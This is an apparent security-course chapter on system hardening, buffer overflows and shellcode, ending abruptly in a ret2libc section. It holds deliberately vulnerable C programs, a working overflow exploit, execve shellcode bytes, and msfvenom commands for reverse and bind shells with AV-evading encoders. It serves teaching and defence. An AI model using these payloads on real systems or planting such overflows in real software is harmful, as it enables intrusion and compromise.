



# Chapter 4: System & Software Security

> **Prereq:** Chapter 3 (Network Security) → network perimeter controls limit what reaches the host; this chapter assumes that baseline.
> **Next:** Chapter 5 (Web Security) → web applications depend on the OS and software security discussed here.

---

## Learning Objectives

- Analyze and exploit stack/heap/SEH buffer overflows at the assembly level.
- Configure OS hardening on Linux (Lynis, SELinux, sysctl) and Windows (AppLocker, Defender, secpol).
- Develop and encode shellcode using msfvenom and assembly.
- Build ROP chains and ret2libc payloads to bypass DEP/NX.
- Understand ASLR, DEP/NX, CFG, SEHOP, and stack canaries in depth.
- Classify malware families (virus, worm, trojan, ransomware, rootkit, botnet, RAT, spyware, adware, fileless).
- Apply the SSDLC with threat modeling (STRIDE, DREAD, PASTA) and secure coding standards.
- Perform fuzzing with AFL and static analysis with Flawfinder/RATS.
- Analyze real malware with PEStudio, HashDiff, ClamAV, and Sysinternals.

---

## Architecture Overview



---

> **One-Sentence Takeaway:** System security requires understanding low-level memory corruption at the assembly level, hardening the OS, classifying malware by behavior, integrating security into the SDLC, and applying both static and dynamic analysis tools.

---

## Section 1: Operating System Hardening

### 1.1 OS Hardening Philosophy


**Analogy:** Hardening an OS is like preparing a warship for battle. You remove unnecessary furniture (services), seal unused hatches (ports), reinforce the hull (kernel parameters), install fire doors (firewall), and train the crew (policies). Every exposed surface is a liability.

**Goal:** Reduce the attack surface by eliminating every service, port, permission, and feature not explicitly required for the system's mission.

**Principle of Least Privilege:** Every process and user runs with the minimum permissions necessary. A web server does not need root; a database does not need to compile code.

**Defense in Depth:** OS hardening is one layer. Combine with firewalls, IDS, EDR, application whitelisting, and user training.

---

### 1.2 Linux Hardening


#### 1.2.1 Kernel Hardening via sysctl

The Linux kernel exposes hundreds of runtime parameters through `/proc/sys`. Critical security parameters:

```bash
# /etc/sysctl.d/99-hardening.conf

# IP spoofing protection
net.ipv4.conf.all.rp_filter = 1
net.ipv4.conf.default.rp_filter = 1

# Ignore ICMP redirects (prevents MITM route poisoning)
net.ipv4.conf.all.accept_redirects = 0
net.ipv4.conf.default.accept_redirects = 0
net.ipv6.conf.all.accept_redirects = 0

# Ignore source-routed packets
net.ipv4.conf.all.accept_source_route = 0
net.ipv6.conf.all.accept_source_route = 0

# Kernel ASLR strength (2 = full randomization)
kernel.randomize_va_space = 2

# Restrict ptrace (prevents process injection by non-root)
kernel.yama.ptrace_scope = 1

# Disable core dumps for setuid programs
fs.suid_dumpable = 0

# Restrict dmesg to root
kernel.dmesg_restrict = 1

# Protect hardlink/symlink creation
fs.protected_hardlinks = 1
fs.protected_symlinks = 1
```

Apply: `sysctl -p /etc/sysctl.d/99-hardening.conf`

#### 1.2.2 Service Management

Remove or disable every unnecessary service:

```bash
# List all enabled services
systemctl list-unit-files --state=enabled

# Disable unnecessary ones
systemctl disable avahi-daemon
systemctl disable cups
systemctl disable bluetooth
systemctl disable rpcbind
```

#### 1.2.3 SELinux and AppArmor

**SELinux** (Security-Enhanced Linux) implements Mandatory Access Control (MAC) at the kernel level using labels (contexts). Every file, process, port, and device has a security context. Policies define allowed transitions.

- Mode: `enforcing` (block), `permissive` (log only), `disabled`
- Check: `getenforce`
- Setenforce: `setenforce 1`
- Policy type: targeted (default), MLS, strict

**AppArmor** uses path-based profiles instead of labels. Easier to configure but less granular.

```bash
# Check AppArmor status
aa-status

# Enforce a profile
aa-enforce /path/to/binary
```

#### 1.2.4 File Permissions and auditd

- World-writable files: `find / -perm -0002 -type f 2>/dev/null`
- SUID/SGID files: `find / -perm -6000 -type f 2>/dev/null`
- No permission on `/etc/shadow` for non-root: `chmod 640 /etc/shadow`

**auditd** monitors security-relevant events:

```bash
auditctl -w /etc/passwd -p wa -k passwd_changes
auditctl -w /etc/shadow -p wa -k shadow_changes
ausearch -k passwd_changes
```

#### 1.2.5 PAM Configuration

Pluggable Authentication Modules control authentication policies:

```
# /etc/pam.d/common-password
password requisite pam_pwquality.so retry=3 minlen=14 difok=3
password required pam_unix.so sha512 shadow use_authtok
```

#### 1.2.6 SSH Hardening

```
# /etc/ssh/sshd_config
Protocol 2
PermitRootLogin no
MaxAuthTries 3
ClientAliveInterval 300
ClientAliveCountMax 0
PermitEmptyPasswords no
AllowUsers alice bob
Ciphers chacha20-poly1305@openssh.com,aes256-gcm@openssh.com
KexAlgorithms curve25519-sha256@libssh.org
```

#### 1.2.7 Practical: Lynis System Hardening Audit

Download and run Lynis:

```bash
# Install Lynis
apt-get install lynis   # or git clone https://github.com/CISOfy/lynis

# Run system audit
lynis audit system

# Check the report
cat /var/log/lynis-report.dat | grep "suggestion"
```

**Sample output:**
```
[+] Firewall
  - iptables is active
[+] File systems
  - Check /etc/fstab for noexec, nodev, nosuid
[!] Suggestion: Install a PAM module for password strength
[!] Suggestion: Enable process accounting (acct)
[!] Suggestion: Set a password on GRUB bootloader
[!] Suggestion: Configure auditd rules
```

---

### 1.3 Windows Hardening


#### 1.3.1 Security Policy (secpol.msc)

Local Security Policy controls:

- **Password Policy:** Minimum length 14, complexity required, max age 60 days
- **Account Lockout Policy:** 5 bad attempts, 30-min lockout
- **User Rights Assignment:** Deny log on through Remote Desktop Services for Guests
- **Security Options:**
  - Network access: Do not allow anonymous enumeration of SAM accounts
  - Microsoft network server: Digitally sign communications (always)
  - Shutdown: Clear virtual memory pagefile

#### 1.3.2 User Account Control (UAC)

UAC prompts for consent or credentials when a program requires admin access:

- Set to: "Always notify" (highest)
- Admin Approval Mode: Enabled
- Only elevate executables that are signed and validated

#### 1.3.3 Windows Defender Configuration

```powershell
# Check Defender status
Get-MpComputerStatus

# Enable real-time monitoring
Set-MpPreference -DisableRealtimeMonitoring $false

# Enable cloud-delivered protection
Set-MpPreference -MAPSReporting Advanced

# Set scan parameters
Set-MpPreference -ScanAvgCPULoadFactor 50
Set-MpPreference -ExclusionPath "C:\Program Files\TrustedApp"

# Run a full scan
Start-MpScan -ScanType FullScan
```

#### 1.3.4 AppLocker Configuration

AppLocker enforces allowlist application control:

```powershell
# Create AppLocker rules (PowerShell)
$rule1 = New-AppLockerPolicy -RuleType Exe -User Everyone -Path "C:\Program Files\*" -Action Allow
$rule2 = New-AppLockerPolicy -RuleType Exe -User Everyone -Path "%WINDIR%\*" -Action Allow
$rule3 = New-AppLockerPolicy -RuleType Exe -User Everyone -Path "C:\Trusted\*" -Action Allow

# Set enforcement mode
Set-AppLockerPolicy -Policy $policy -Merge

# Audit only (before full enforcement)
Set-AppLockerPolicy -Policy $policy -RuleType Exe -Audit
```

#### 1.3.5 Patch Management (WSUS)

Group Policy → Windows Update → Configure Automatic Updates:
- 4 = Auto download and schedule install
- Install during maintenance: Daily at 3 AM
- Specify intranet Microsoft update service location → WSUS server

#### 1.3.6 Practical: Sysinternals Suite

Sysinternals provides deep Windows introspection tools:

**Process Monitor (procmon.exe):**
```
Filter: Process Name is "malware.exe" then Include
Captures: Registry, File System, Network, Process/Thread activity
```

**Autoruns (autoruns.exe):**
```
Shows every autostart location:
- Registry Run keys
- Scheduled tasks
- Services
- Explorer shell extensions
- Browser helper objects
- AppInit DLLs
- Boot execute
- Side-by-side manifests
```

**Practical usage for malware analysis:**
1. Run Autoruns → Hide Microsoft entries → examine suspicious entries
2. Run Process Monitor → filter on suspicious process→ capture file/registry/network ops
3. Check with Process Explorer → look for DLL injection (View → Lower Pane → DLLs)

---

### 1.4 OS Hardening Checklist


| Category | Linux | Windows |
|----------|-------|---------|
| **Patch Level** | `apt update && apt upgrade` | Windows Update / WSUS |
| **Account Policies** | PAM pwquality, lockout after 5 failures | secpol.msc → password/account lockout |
| **Firewall** | `ufw enable` or `iptables` | Windows Defender Firewall with Advanced Security |
| **App Control** | SELinux/AppArmor mandatory profiles | AppLocker or WDAC |
| **AV/EDR** | ClamAV + rkhunter + chkrootkit | Microsoft Defender + MDE |
| **Logging** | auditd + rsyslog → SIEM | Windows Event Log → Event Subscription + SIEM |
| **File Integrity** | AIDE or Tripwire | Sysinternals Sigcheck, FCIV |
| **Boot Security** | GRUB password, Secure Boot | Secure Boot, BitLocker, TPM |
| **Kernel Protections** | sysctl hardening (aslr, rp_filter, etc.) | Exploit Protection in Windows Defender |
| **Removal** | Remove avahi, cups, bluetooth, rpcbind | Remove unused roles/features via Server Manager |
| **Remote Access** | SSH key-only, disable root | RDP via VPN + NLA + restricted users |
| **User Restrictions** | No world-writable files, SUID review | UAC highest, deny local admin |

---

## Section 2: Buffer Overflows

### 2.1 Memory Layout of a Process


**Analogy:** A process's memory is like a multi-story office building:
- **Text (Code) segment** → the blueprints (read-only instructions)
- **Data segment** → permanent filing cabinets (global/static variables)
- **Heap** → flexible storage room that grows on demand (dynamic allocation)
- **Stack** → the desk where you pile papers for the current task (local variables, function frames), grows downward

```
High Address
+------------------+
|      Stack       |  ← grows downward (toward lower addresses)
| (local vars,     |
|  return addrs)   |
|------------------|
|        |         |
|        v         |
|        ^         |
|        |         |
|------------------|
|      Heap        |  ← grows upward (toward higher addresses)
| (malloc/new)     |
|------------------|
|  Data Segment    |  ← global/static variables
|------------------|
|  Text Segment    |  ← machine code (read-only)
+------------------+
Low Address
```

### 2.2 Stack Buffer Overflow


#### 2.2.1 Anatomy

**Analogy:** You have a stack of papers on your desk labeled "buffer[16]". Someone hands you 50 pages to file. You keep stuffing them into the buffer folder, and they spill over, covering your sticky note that says "remember to return to the main office (return address)". When you finish, you look at the sticky note → it's been overwritten with "go to the attacker's office instead."

A stack buffer overflow occurs when a program writes more data to a stack-allocated buffer than its allocated size. The excess overwrites adjacent memory: saved base pointer, return address, and potentially function arguments.

#### 2.2.2 Vulnerable C Program

```c
// vuln.c → compile with: gcc -fno-stack-protector -z execstack -no-pie -m32 -o vuln vuln.c
#include <stdio.h>
#include <string.h>

void secret_function() {
    printf("YOU WIN! Secret function executed.\n");
}

void vulnerable(char *input) {
    char buffer[64];              // 64-byte buffer on stack
    printf("Buffer at: %p\n", buffer);
    printf("Secret function at: %p\n", secret_function);
    strcpy(buffer, input);        // NO bounds check → classic overflow
}

int main(int argc, char *argv[]) {
    if (argc < 2) {
        printf("Usage: %s <overflow string>\n", argv[0]);
        return 1;
    }
    vulnerable(argv[1]);
    printf("Normal exit.\n");
    return 0;
}
```

**Output with overflow:**
```
$ ./vuln AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
Buffer at: 0xffffd4c0
Secret function at: 0x08048456
Segmentation fault (core dumped)
```

#### 2.2.3 Stack Frame Layout During Execution

When `vulnerable()` is called, the stack looks like:

```
Before strcpy:
High Address
+---------------------------+
| argv, argc (caller args)   | ← main's stack frame
+---------------------------+
| return address (to main)  | ← 4 bytes → where vulnerable returns
+---------------------------+
| saved EBP (frame pointer) | ← 4 bytes
+---------------------------+
| buffer[64]                | ← 64 bytes (local array)
|  [0..15] [16..31]         |
|  [32..47] [48..63]        |
+---------------------------+
Low Address  ← ESP points here
```

After overflow with 72+ bytes:

```
After strcpy with 80 bytes:
High Address
+---------------------------+
| AAAAAAAA (bytes 72-79)    | ← overwrites argv/argc area
+---------------------------+
| AAAAAAAA (bytes 64-71)    | ← overwrites return address
+---------------------------+
| AAAAAAAA (bytes 56-63)    | ← overwrites saved EBP
+---------------------------+
| AAAAAAAA (bytes 0-55)     | ← fills buffer
+---------------------------+
Low Address
```

#### 2.2.4 gdb Walkthrough

```bash
$ gdb -q ./vuln
Reading symbols from ./vuln...(no debugging symbols found)...done.
(gdb) disassemble vulnerable
Dump of assembler code for function vulnerable:
   0x0804840d <+0>:     push   ebp
   0x0804840e <+1>:     mov    ebp,esp
   0x08048410 <+3>:     sub    esp,0x58         # allocate 88 bytes (64 for buffer + padding)
   0x08048413 <+6>:     sub    esp,0x8
   0x08048416 <+9>:     push   DWORD PTR [ebp+8]  # argv[1]
   0x08048419 <+12>:    lea    eax,[ebp-0x48]     # buffer at ebp-0x48 (72 bytes below EBP)
   0x0804841c <+15>:    push   eax
   0x0804841d <+16>:    call   0x80482e0 <strcpy@plt>
   0x08048422 <+21>:    add    esp,0x10
   0x08048425 <+24>:    nop
   0x08048426 <+25>:    leave
   0x08048427 <+26>:    ret
End of assembler dump.

(gdb) break *0x08048422
(gdb) run AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ

(gdb) x/20wx $ebp-0x50   # examine stack
0xffffd478:     0x41414141      0x41414141      0x42424242      0x42424242
0xffffd488:     0x43434343      0x43434343      0x44444444      0x44444444
0xffffd498:     0x45454545      0x45454545      0x46464646      0x46464646
0xffffd4a8:     0x47474747      0x47474747      0x48484848      0x48484848
0xffffd4b8:     0x49494949      0x49494949      ...              ...
                                ^ buffer          ^ saved EBP     ^ return address
                                                  (overflowed)     (overflowed)

(gdb) info registers ebp eip
ebp            0x50505050       0x50505050    # overwritten with 'PPPP' (0x50 = 'P')
eip            0x51515151       0x51515151    # overwritten with 'QQQQ' (0x51 = 'Q')
```

**Finding the offset:** Pattern tells us return address offset = 76 bytes (64 buffer + 12 alignment/padding).

#### 2.2.5 Exploiting → Redirecting to secret_function

```bash
# Calculate: buffer(64) + saved_ebp(4) + padding(8) = 76 bytes padding, then target address
$ ./vuln $(python2 -c 'print "A"*76 + "\x56\x84\x04\x08"')
Buffer at: 0xffffd4c0
Secret function at: 0x08048456
YOU WIN! Secret function executed.
```

#### 2.2.6 Complexity Analysis

- **Crafting:** O(n) where n = padding size + address length
- **Brute-force (ASLR off):** O(1) with known offset
- **Brute-force (ASLR on, 32-bit):** O(2^16) typical entropy
- **Brute-force (ASLR on, 64-bit):** O(2^28) typical entropy

#### 2.2.7 A&D Table

| Advantage | Disadvantage |
|-----------|-------------|
| Simple to implement in C | Requires precise offset calculation |
| Direct control flow hijack | Stack canaries (SSP) detect it immediately |
| Stable if address is fixed | ASLR randomizes target addresses |
| Works on unprotected binaries | DEP/NX prevents shellcode execution on stack |
| Well-understood technique | Modern compilers enable canaries by default |

#### 2.2.8 Edge Cases

| Edge Case | Behavior | Mitigation |
|-----------|----------|------------|
| Null bytes in address | `strcpy` stops at null | Use address without null bytes or use non-null gadgets |
| Newlines/carriage returns | `gets` stops at newline | Use `fgets` or `read()` syscall |
| Partial overwrite of return address | Hijacks to nearby function (ret2plt) | ASLR makes partial overwrites unreliable |
| Overwriting exact EBP | Stack frame corruption | Canaries detect EBP/return addr modification |
| Very small buffer (< 16 bytes) | Limited overwrite space | Use ROP chain or ret2libc |

---

### 2.3 Heap Buffer Overflow


#### 2.3.1 Anatomy

**Analogy:** The heap is like a community storage shed. You check out a box (malloc), but you put more stuff in it than it can hold. The excess spills into the next person's box. When they open their box, they find your stuff, or worse → the shed manager's ledger is right next to your box, and you overwrite who owns what.

Heap overflows corrupt heap metadata → chunk headers with size fields, forward/backward free-list pointers → leading to arbitrary write when `free()` processes the corrupted chunk.

#### 2.3.2 Vulnerable C Program

```c
// heap_vuln.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
    if (argc < 2) { printf("Usage: %s <data>\n", argv[0]); return 1; }

    char *secret = malloc(16);  // holds a secret
    char *buffer = malloc(16);  // adjacent chunk

    strcpy(secret, "TOP_SECRET_123");
    printf("secret at %p: %s\n", secret, secret);
    printf("buffer at %p\n", buffer);

    strcpy(buffer, argv[1]);    // OVERFLOW → writes past buffer into secret
    printf("secret after overflow: %s\n", secret);

    free(buffer);
    free(secret);
    return 0;
}
```

**Output:**
```
$ ./heap_vuln AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
secret at 0x804a008: TOP_SECRET_123
buffer at 0x804a018
secret after overflow: AAAAAAAAAAAAAAAA
```

The 16-byte `buffer` chunk (at 0x804a018) overflows into the adjacent `secret` chunk (at 0x804a008). On the heap, chunks are adjacent:

```
Before overflow:
+------------+------------+
| secret[16] | buffer[16] |  ← metadata between chunks
+------------+------------+

After overflow with 32+ bytes:
+------------+------------+
| secret[16] | AAAAAAA... |  ← secret's content overwritten
+------------+------------+
```

#### 2.3.3 Use-After-Free (UAF)

```c
char *ptr = malloc(16);
strcpy(ptr, "hello");
free(ptr);              // memory freed
// ... attacker controls the allocator state ...
printf("%s\n", ptr);    // USE AFTER FREE → dangling pointer
```

#### 2.3.4 Complexity Analysis

- **Overflow**: O(n) for copy
- **Heap feng shui**: NP-hard, requires careful allocator manipulation
- **Double-free detection**: O(1) if tcache detects; otherwise subtle

#### 2.3.5 A&D Table

| Advantage | Disadvantage |
|-----------|-------------|
| Bypasses stack canaries | Heap metadata corruption can crash process |
| Larger overflow space (heap grows) | Allocator implementation complexity (glibc/ptmalloc) |
| Can corrupt function pointers in structs | ASLR randomizes heap base |
| Persists beyond function return | Requires precise heap layout grooming |

---

### 2.4 SEH Overflow (Windows)


#### 2.4.1 Anatomy

**Analogy:** Windows structured exception handling is like a chain of emergency exits. When an exception occurs (fire), Windows walks the chain looking for someone to handle it. An SEH overflow overwrites one of the emergency exit signs to point to the attacker's door instead.

On Windows, when `__try/__except` is used, an EXCEPTION_REGISTRATION_RECORD is placed on the stack:

```
typedef struct _EXCEPTION_REGISTRATION_RECORD {
    struct _EXCEPTION_REGISTRATION_RECORD *Next;  // next handler in chain
    PEXCEPTION_ROUTINE Handler;                    // exception handler function
} EXCEPTION_REGISTRATION_RECORD;
```

The `Handler` field points to the exception handler. An overflow can overwrite this pointer. When an exception fires (access violation after overflow), the corrupted handler executes attacker code.

**Practical exploitation (SafeSEH bypass):**
1. Overflow buffer → overwrite SEH handler pointer
2. Trigger exception (e.g., write to invalid memory)
3. Handler executes attacker-controlled address

Modern mitigations: SafeSEH (validates handler address), SEHOP (validates chain integrity).

---

### 2.5 Buffer Overflow Defenses Comparison


| Defense | Description | Bypass | Effectiveness |
|---------|-------------|--------|---------------|
| **Stack Canary** | Random value placed before return address; checked before `ret` | Info leak to read canary value; or overwrite canary with itself if fork-based server | High → default in GCC/Clang (`-fstack-protector`) |
| **ASLR** | Randomizes base addresses of stack, heap, libc, PIE binary | Info leak (format string, side channel) or brute-force (32-bit: ~2^16) | High on 64-bit (28+ bits entropy) |
| **DEP/NX** | Marks stack/heap as non-executable; CPU refuses to execute code there | ROP → reuse existing code (libc gadgets) | Very high against shellcode injection |
| **CFG** (Control Flow Guard) | Inserted checks at indirect call sites verify target is in valid function table | Find function with CFG check disabled or bypass the check | High on Windows 10+ |
| **SEHOP** (SEH Overwrite Protection) | Validates SEH chain integrity before dispatching exception | Corrupt SEH chain pointer to a valid-looking fake chain | Moderate → can be bypassed if attacker controls chain pointer |
| **SafeSEH** | Validates exception handler address is within a registered module | Use module not compiled with SafeSEH; or address in non-SafeSEH module | Moderate → varies by module |
| **PIE** (Position Independent Executable) | Randomizes code base address (extends ASLR to binary itself) | Info leak of binary base | High → default in modern Linux distros |
| **RELRO** | Makes GOT read-only after relocation (Full RELRO) | Partial RELRO: overwrite GOT entry; Full RELRO: need other targets | High → Full RELRO prevents GOT overwrite |

---

## Section 3: Shellcode Development

### 3.1 What Is Shellcode?


**Analogy:** Shellcode is like a skeleton key. Instead of being a full replacement key (program), it's a tiny piece of precisely machined metal (minimal machine code) that does exactly one thing → open the door (spawn a shell). It must fit in tight spaces (small buffer) and avoid breaking the lock (null-byte-free).

Shellcode is position-independent machine code that executes the attacker's intent → typically spawning a shell (`/bin/sh`), creating a reverse shell, or adding a backdoor user.

**Constraints:**
- Must be position-independent (PIC)
- Must be null-byte-free (string functions stop at null)
- Must be small (buffer constraints)
- Must avoid bad characters depending on vulnerability context

### 3.2 Writing Shellcode in Assembly (Linux x86)


```assembly
; shellcode.asm → execve("/bin/sh", NULL, NULL) → 23 bytes, null-free
; nasm -f elf32 shellcode.asm -o shellcode.o
; ld -m elf_i386 -o shellcode shellcode.o

BITS 32

; Clear registers
xor eax, eax        ; eax = 0
xor ebx, ebx        ; ebx = 0
xor ecx, ecx        ; ecx = 0
xor edx, edx        ; edx = 0

; Push "/bin//sh" onto stack (8 bytes, // fills to alignment)
push ebx            ; null terminator
push 0x68732f2f     ; "hs//"
push 0x6e69622f     ; "nib/"

mov ebx, esp        ; ebx = pointer to "/bin//sh"

; execve syscall
; syscall number: 11 (0x0b)
mov al, 0x0b        ; lower byte of eax = 11 (execve syscall)
int 0x80            ; trigger interrupt
```

**Extracted shellcode bytes:**
```c
unsigned char shellcode[] = 
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2"
"\x53\x68\x2f\x2f\x73\x68\x68\x2f"
"\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80";
```

**Testing the shellcode:**
```c
// test_shellcode.c
#include <stdio.h>
#include <sys/mman.h>
#include <string.h>
#include <unistd.h>

unsigned char shellcode[] = 
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2"
"\x53\x68\x2f\x2f\x73\x68\x68\x2f"
"\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80";

int main() {
    printf("Shellcode length: %ld\n", sizeof(shellcode) - 1);
    // Make memory executable
    mprotect((void *)((long)shellcode & ~0xfff), 4096, PROT_READ | PROT_WRITE | PROT_EXEC);
    // Cast shellcode to a function pointer and call it
    void (*code)() = (void (*)())shellcode;
    code();
    return 0;
}
```

**Compilation and test:**
```
$ gcc -z execstack -o test_shellcode test_shellcode.c
$ ./test_shellcode
Shellcode length: 23
$                         # Shell spawned → exit with Ctrl+D
```

### 3.3 Practical: msfvenom Shellcode Generation


```bash
# Linux x86 reverse shell shellcode (null-free)
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 \
         -b "\x00" -f c

# Output:
# unsigned char buf[] = 
# "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd"
# "\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\xc0\xa8\x01"
# "\x64\x68\x02\x00\x11\x5c\x89\xe1\xb0\x66\xcd\x80\x51\x56"
# "\x89\xe1\xb0\x66\xcd\x80\x89\xc3\xb0\x0f\xcd\x80\x31\xc0"
# "\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50"
# "\x53\x89\xe1\xb0\x0b\xcd\x80";

# Windows x86 bind shell (staged)
msfvenom -p windows/shell_bind_tcp LPORT=4444 -b "\x00\x0a\x0d" -f exe -o shell.exe

# Encoded payload with shikata_ga_nai (polymorphic)
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.5 LPORT=4444 \
         -e x86/shikata_ga_nai -i 5 -f c

# List all available payloads
msfvenom -l payloads

# Custom bad character set (common in strcpy-based overflows)
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 \
         -b "\x00\x0a\x0d\x20\x0b\x0c\x09" -f ps1
```

### 3.4 Shellcode Encoding and Obfuscation


**Why encode?** Filters and IDS signatures block known shellcode patterns. Encoders transform shellcode to evade detection.

| Encoder | Technique | Evasion |
|---------|-----------|---------|
| shikata_ga_nai | XOR additive feedback (polymorphic) | Signature-based AV |
| countdown | Single-byte XOR with decreasing key | Basic signature |
| call4_dword_xor | XOR with 4-byte key using call technique | Static analysis |
| alpha_mixed | Alphanumeric shellcode (only printable ASCII) | Input filters |
| x86/unicode_upper | Unicode-safe shellcode | Unicode-based input |

**Example: Alphanumeric shellcode generation:**
```bash
msfvenom -p linux/x86/exec CMD=/bin/sh -e x86/alpha_mixed -f c
```

---

## Section 4: Advanced Exploitation Techniques

### 4.1 Return-to-libc (ret2libc)


**Analogy:** Since the stack can't run code directly (DEP/NX), it's like being in a library where you can't write new books but you can pick existing books off the shelf and open them. ret2libc picks `system()` off the libc shelf, sets the arguments correctly, and calls it to spawn a shell.

**Concept:** Instead of jumping to shellcode on the stack (blocked by NX), return to a libc function like `system()` with controlled arguments.

**Stack layout for ret2libc:**
```
Before overflow:
+-------------------+
| return address    | → overwrite with address of system() in libc
+-------------------+
| saved EBP         | → overwrite with junk or valid frame
+-------------------+
| buffer[64]        |
+-------------------+

After overflow layout:
+-------------------+
| &system()         | → overwrites return address
+-------------------+
| fake ret after    | → address to return after system() (or junk)
+-------------------+
| pointer to cmd    | → first argument to system() → in our case "/bin/sh"
+-------------------+
| "/bin/sh\0"       | → string in buffer or in libc itself
+-------------------+
| padding           |
+-------------------+
```

**Finding libc addresses:**
```bash
$ ldd vuln | grep libc
    libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7e00000)

$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
  1405: 0003d200   55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0

